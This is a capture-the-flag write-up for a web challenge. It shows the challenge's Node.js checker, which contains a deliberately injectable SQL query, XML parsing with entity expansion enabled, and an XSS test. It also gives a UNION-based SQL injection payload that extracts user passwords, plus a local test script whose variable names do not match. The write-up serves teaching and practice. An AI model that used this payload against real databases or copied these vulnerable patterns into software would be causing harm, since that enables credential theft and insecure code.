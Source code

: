 # SECURE BUG CTF

It was awesome ctf ,so let's enjoy with writeup.

# web challenges:

## 1- ALLLn1(medium)

![Screenshot at 2021-07-21 12-39-35](https://user-images.githubusercontent.com/52857059/126521585-a4841180-b58a-4e82-b9d3-93429f94495b.png)

if we go to source directory we will see source code of page , it is js code.  

![Screenshot at 2021-07-21 18-16-09](https://user-images.githubusercontent.com/52857059/126523341-739e3200-9c9b-4f6b-9d47-4e8009cf27b6.png)

we notice when returns "parabens hackudo" we get the flag , else we get nope.

let's take second script & test our payload locally

```html
const puppeteer = require('puppeteer')
const mysql = require("mysql")
const util = require('util')
const libxml = require("libxmljs")
const fs = require("fs")
const sanitizeHtml = require("sanitize-html")



function test_xxe(payload) {

	try {
		var my_secret = Math.random().toString(36).substring(2) ;
		fs.writeFileSync("/home/gnx/script/xxe_secret",my_secret)
		var doc = libxml.parseXml(payload, { noent: true ,nonet: true })
		return doc.toString().includes(my_secret) 
		
	} catch (e) {
		return false
	}
} 

async function test_xss(payload) {
	try {
		const browser = await puppeteer.launch({args:['--no-sandbox', '--disable-setuid-sandbox','--disable-dev-shm-usage','--disable-accelerated-2d-canvas','--no-first-run','--no-zygote','--single-process','--disable-gpu']})
		const page = await browser.newPage()
		page.setDefaultNavigationTimeout(1000);
		payload = sanitizeHtml(payload,{allowedTags:[]})
		await page.goto(`data:text/html,<script>${payload}</script>`)
		const check = await page.evaluate("( typeof xss != 'undefined' ? true : false )") // vlw herrera

		await browser.close()
		
		return check

	} catch (error) {
		console.error(error)
	}

}

async function test_sqli(payload) {

	var connection = mysql.createConnection({
		host : process.env.MYSQL_HOST || "127.0.0.1",
		user : process.env.MYSQL_USER,
		password : process.env.MYSQL_PASSWORD,
		database : process.env.MYSQL_DATABASE,
		charset: 'utf8',
    dialectOptions: {
			collate: 'utf8_general_ci',
    },
	})


	const query = util.promisify(connection.query).bind(connection)


	connection.connect()

	const users = await query("SELECT * from users") 
	try {
		const sqli = await query(`SELECT * from posts where id='${payload}'`)
		await connection.end() 
		return JSON.stringify(sqli).includes(users[0]["password"])	
	} catch(e) {
		return false
	}
}

function main(args){

	var xss = test_xss(args[0])
	var sqli = test_sqli(args[0])
	var xxe = test_xxe(args[0])

  Promise.all([xss,sqli]).then( function( values ){
                if ( values[0] && values[1] && xxe ) {
                        console.log("parabens hackudo")
                } else {
                        console.log("hack harder")
                }

                process.exit(0)
        })
	
}

main(process.argv.slice(2))

```
let's start with sqli test :

sql injection payload  
```html 
' UNION SELECT 1, 2 , password FROM users -- - 
```
![Screenshot at 2021-07-21 18-42-41](https://user-images.githubusercontent.com/52857059/126526899-14f9eecd-a648-4d7e-9e7f-84eed2cf6870.png)
 yes, it works

```html
async function test_sqli(payload) {

	var connection = mysql.createConnection({
		host : "127.0.0.1",
		user : "root",
		password : "root",
		database : "foo",
		charset: 'utf8',
    dialectOptions: {
			collate: 'utf8_general_ci',
    },
	})


	const query = util.promisify(connection.query).bind(connection)


	connection.connect()

	const users = await query("SELECT * from users") 
	try {
		const sqli = await query(`SELECT * from posts where id='${payload}'`)
		await connection.end() 
		return JSON.stringify(sqli).includes(users[0]["password"])	
	} catch(e) {
		return false
	}
}

function main() {
	let sql_payload = "' UNION SELECT 1, 2 , password FROM users -- - "
	
	var sqli = test_sqli(payload)

	Promise.all([sqli]).then( function( values ){
		console.log('SQL: ' + values[0])

		process.exit(0)
	})

	
}

```
  if we try this file locally it returns true , so first test is done.
  
  



